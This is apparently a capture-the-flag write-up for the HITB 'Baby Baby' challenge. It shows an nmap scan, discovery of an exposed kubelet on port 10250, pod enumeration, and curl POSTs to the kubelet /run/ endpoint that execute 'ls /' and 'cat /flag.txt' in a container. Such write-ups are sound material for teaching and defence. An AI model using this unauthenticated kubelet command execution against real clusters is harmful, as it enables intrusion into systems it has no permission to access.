# Baby Baby challenge
There's nothing but a sentence and an image
```
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

```

I tried `robots.txt`,`/.git/` but found nothing, then I use `nmap` to scan for open port in this challenge
and I found something interesting in it.

```
$ nmap -p- 47.75.146.42

Starting Nmap 7.01 ( https://nmap.org ) at 2018-04-13 15:08 +07
Nmap scan report for 47.75.146.42
Host is up (0.047s latency).
Not shown: 65528 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
9999/tcp  open   abyss
10250/tcp open   unknown

Nmap done: 1 IP address (1 host up) scanned in 164.28 seconds
```

After searching for a while, I find out that that is `kubelet` service running on port `10250`
```
$ curl -k https://47.75.146.42:10250/stats/
{
  "name": "/",
  "subcontainers": [
   {
    "name": "/docker"
   },
   {
    "name": "/kubepods"
   },
   {
    "name": "/system.slice"
   },
   {
    "name": "/user.slice"
   }
```

I immediately search for `Exploit Kubelet` and boom: https://github.com/kayrus/kubelet-exploit
where we can use `/run/%namespace%/%pod_name%/%container_name%` to exploit it but first we must have
`namespace`,`pod_name`,`container_name`. I achieved this by
```
$curl -sk https://47.75.146.42:10250/runningpods/ | python -mjson.tool
{
            "metadata": {
                "creationTimestamp": null,
                "name": "web-test-4092782360-035qx",
                "namespace": "esn-system",
                "uid": "a8f7e307-3e14-11e8-838a-00163e0245e7"
            },
            "spec": {
                "containers": [
                    {
                        "image": "127.0.0.1:5000/esn-containers/web_test@sha256:ae129fcd94bd2978db37050f95c62311f5bf9fdbba25817e6e8a098db3a168cf",
                        "name": "web-test",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        }
```
There was a lot of output but the challenge say `this is a pentest challenge` so I ignore everything else
Then follow the link above
```
$ curl -k -XPOST "https://47.75.146.42:10250/run/esn-system/web-test-4092782360-035qx/web-test" -d "cmd=ls /"
bin
core
dev
etc
flag.txt
home
lib
linuxrc
media
mnt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var

$ curl -k -XPOST "https://47.75.146.42:10250/run/esn-system/web-test-4092782360-035qx/web-test" -d "cmd=cat /flag.txt"
HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


DO NOT MODIFY ANYTHING.
WE WILL BAN YOUR TEAM IF YOU CHANG FLAG, DELETE FILES, ETC.

如果你修改、删除文件，我们会 ban 掉你 :D
```

#Flag HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}